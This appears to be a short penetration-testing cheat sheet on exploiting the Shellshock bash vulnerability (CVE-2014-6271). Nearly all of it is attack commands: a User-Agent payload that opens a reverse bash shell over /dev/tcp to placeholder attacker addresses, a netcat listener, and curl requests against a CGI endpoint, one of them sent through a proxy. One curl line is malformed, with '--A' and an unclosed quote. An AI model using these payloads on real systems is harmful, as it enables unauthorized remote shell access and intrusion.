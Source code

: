 # Shell Shock Vulnerability
If the [Shell Shock vulnerability](https://www.cvedetails.com/cve/CVE-2014-6271/), is detected on the target server, we can attempt to exploit it by updating our user agent string in BurpSuite, or using `curl` and making the request to the server.

Exploit attempt string for the user agent:
```
() { ignored;};/bin/bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/(ATTACKER PORT) 0>&1
```
Start the listener on the port, 443:
```
root@attacker:~# nc -lvvnp 443
```
Then make the `curl` request:
```
root@attacker-machine:~# curl --A '() { ignored;};/bin/bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/(ATTACKER PORT) 0>&1
' http://(TARGET IP ADDRESS)/vulnerable-service
```
Then, run the curl command to attack the web service.
```
root@attacker-machine:~# curl -A '() { ignored;};/bin/bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/443 0>&1' http://(TARGET IP ADDRESS):80/cgi-bin/status
```
If using a proxy, e.g. port 3128, with `curl` use the following,
```
root@attacker-machine:~# curl -A '() { ignored;};/bin/bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/443 0>&1' -x http://(TARGET IP ADDRESS):3128 http://(TARGET IP ADDRESS):80/cgi-bin/status
```

